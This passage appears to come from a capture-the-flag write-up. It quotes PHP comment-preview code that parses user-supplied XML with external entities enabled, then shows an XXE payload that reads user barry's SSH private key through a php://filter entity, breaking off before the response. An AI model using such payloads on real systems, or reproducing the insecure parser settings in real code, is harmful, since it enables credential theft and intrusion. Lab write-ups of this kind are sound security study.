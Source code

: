```php
        </form>
        <?php
 
  if(!empty($_POST["xml"])) {
    libxml_disable_entity_loader (false); 
    $xmlfile = $_POST["xml"];
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $comment = simplexml_import_dom($dom);
    $name = $comment->name;
    $author = $comment->author;
    $com = $comment->com;
    echo "<h3>Comment Preview:</h3><p>Name: $name</p><p>Author : $author</p><p>Comment :<br> $com<p/>";
  }
 
?>
    </section>



<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>
```

We can see how the XML parser operates.

After some time, I have figured out that since we also discovered a user called **barry**, we can read his ssh private key using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment 
	[
		<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/home/barry/.ssh/id_rsa">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&payload;</com>
</comment>
```

This gives us the following response:
